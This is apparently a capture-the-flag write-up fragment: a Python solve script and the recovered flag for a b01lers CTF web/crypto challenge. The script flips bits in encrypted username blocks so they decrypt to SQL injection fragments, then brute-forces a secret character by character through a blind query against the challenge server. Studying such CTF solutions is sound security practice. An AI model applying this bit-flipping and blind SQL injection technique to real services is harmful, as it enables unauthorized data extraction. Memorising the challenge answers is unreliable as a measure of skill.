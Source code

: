 ```python
uname_blocks = [binascii.unhexlify(uname[i:i+32]) for i in range(0,len(uname),32)]

block = b'aaaaaaaaaaaaaaaa'
query_part1 = b"'OR /*"
query_part2 = b"*/auth_secret/*"
query_part3 = b'*/LIKE/*'

s = requests.Session()

flag = 'bctf{'

current_prefix = flag[-5:]

for i in tqdm(range(200)):
    for j in (string.ascii_lowercase + '0123456789' + '_'):
        ngram = current_prefix + j

        query_part4 = Template("*/'%$gram%';--")
        query_part4 = query_part4.substitute(gram=ngram).encode()

        # construct the modified query ciphertext
        # also extremely jank sorry
        uname = xor(uname_blocks[0],xor(block[:len(query_part1)],query_part1)) + uname_blocks[1] + xor(uname_blocks[2],xor(block[:len(query_part2)],query_part2)) + uname_blocks[3] + xor(uname_blocks[4],xor(block[:len(query_part3)],query_part3)) + uname_blocks[5] + xor(uname_blocks[6],xor(block[:len(query_part4)],query_part4)) + uname_blocks[7]
        uname_hex = uname.hex()

        new_link = f"https://what-the-crypto.harkonnen.b01lersc.tf/?username={uname_hex}&password=bd0e2c124c410b54f4d27402982ac522d0a9e739f368c1ffb9f983080507bf92"

        response = s.get(new_link)
        #print(response.text)
        if (response.status_code == 200):
            print(f"Added: {ngram}")
            flag += j
            print(flag)
            current_prefix = flag[-5:]
            break


print(flag)
```

## Flag

`bctf{y0u_w0u1dnt_d3crypt_4_c4r_494816651075691437196384986030349966922111068829715192842094121854721561838287531984681055517649308307282068786676919582}`
